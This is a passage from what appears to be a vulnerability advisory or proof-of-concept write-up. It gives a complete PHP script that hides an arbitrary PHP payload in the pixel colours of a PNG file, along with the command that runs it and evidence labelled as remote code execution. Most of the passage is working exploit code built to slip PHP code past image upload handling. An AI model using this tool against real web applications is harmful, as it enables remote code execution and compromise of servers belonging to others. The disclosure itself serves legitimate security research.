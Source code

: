 ```php
<?php

if(count($argv) != 3) exit("Usage $argv[0] <PHP payload> <Output file>");

$_payload = $argv[1];
$output = $argv[2];

while (strlen($_payload) % 3 != 0) { $_payload.=" "; }

$_pay_len=strlen($_payload);
if ($_pay_len > 256*3){
    echo "FATAL: The payload is too long. Exiting...";
    exit();
}
if($_pay_len %3 != 0){
    echo "FATAL: The payload isn't divisible by 3. Exiting...";
    exit();
}

$width=$_pay_len/3;
$height=20;
$im = imagecreate($width, $height);

$_hex=unpack('H*',$_payload);
$_chunks=str_split($_hex[1], 6);

for($i=0; $i < count($_chunks); $i++){
    $_color_chunks=str_split($_chunks[$i], 2);
    $color=imagecolorallocate($im, hexdec($_color_chunks[0]), hexdec($_color_chunks[1]),hexdec($_color_chunks[2]));
    imagesetpixel($im,$i,1,$color);
}

imagepng($im,$output);
```

Now we just have to run the exploit:

```bash
php exploit.php '<?php phpinfo(); ?>' poc.php
```

## Evidence of exploitation

<iframe src="https://streamable.com/e/avumaf"
frameborder="0" width="835px" height="505px"
allowfullscreen></iframe>

![rce-ycrs](https://user-images.githubusercontent.com/51862990/228787923-6c22fad8-2a9f-41bb-8e12-1133a4421f60.png)

## Our security policy
